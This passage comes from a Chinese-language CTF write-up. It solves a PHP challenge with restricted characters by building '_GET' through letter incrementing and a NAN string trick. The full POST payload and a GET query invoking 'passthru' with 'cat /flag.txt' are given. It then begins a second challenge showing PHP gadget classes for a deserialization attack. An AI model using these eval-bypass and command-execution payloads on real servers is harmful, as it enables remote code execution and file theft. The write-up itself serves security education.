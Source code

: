 ```php

    phpinfo();
}
?>
```

发现留给我们的只有`C和$`等字符
利用字母自增原理来得到GET从而执行命令

![](https://img-blog.csdnimg.cn/7c06b9a9bc2c4656b4578ed56e3f8241.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
但是这样超出了长度限制，就要想法获取其他的字符，wp中有这样

`$C_=(C/C.C){0};`

先说目的：为了得到一个比较靠后的字母

经过测试：php7下
一个字符整除一个 `float形式的字符(c.x)` 返回 `string "NANx"`

![](https://img-blog.csdnimg.cn/5f57e33533e14665b9ab16ad25de1eb8.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
我们`通过(C/C.C)[0]来返回第一个字符N`，再通过自增得到T 
至此我们有了GET

这里还有一个知识点不太理解

这里eval传入两个括号就可以执行类似于call_user_func函数

![](https://img-blog.csdnimg.cn/8bf9388f1d374c55a28a3f20353ae63b.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
我构造了传入一个括号的形式
最后构造：

![](https://img-blog.csdnimg.cn/76d10371a99242ed9a452862ae4901fa.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
POST:
```
ctf_show=$_=C;$_++; $C=++$_;$_++;$_++;$__=(C/C.C){0};$__++;$__++;$__++;$__++;$__++;$__++;$C_=_.$_.$C.$__;$$C_[1]($$C_[2]);
```

同时GET
```
?looklook=1&1=passthru&2=cat /flag.txt
```

# ATTup
严格检查后缀，正常上传zip文件，然后进行查询，发现 中间跳转的是find.php

查看网页源码发现php代码

![](https://img-blog.csdnimg.cn/2ad74028891f4408a54a3da7083710a6.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
部分代码：

```php
class View { 
	public $fn; 
	public function __invoke(){ 
	$text = base64_encode(file_get_contents($this->fn)); 
	echo "<script>alert('".$text."');self.location=document.referrer;</script>"; 
	} 
} 
class Fun{ 
	public $fun = ":)"; 
	public function __toString(){ 
		$fuc = $this->fun; 
		$fuc(); 
		return "<script>alert('Be a happy string~');self.location=document.referrer;</script>"; 
		} 
```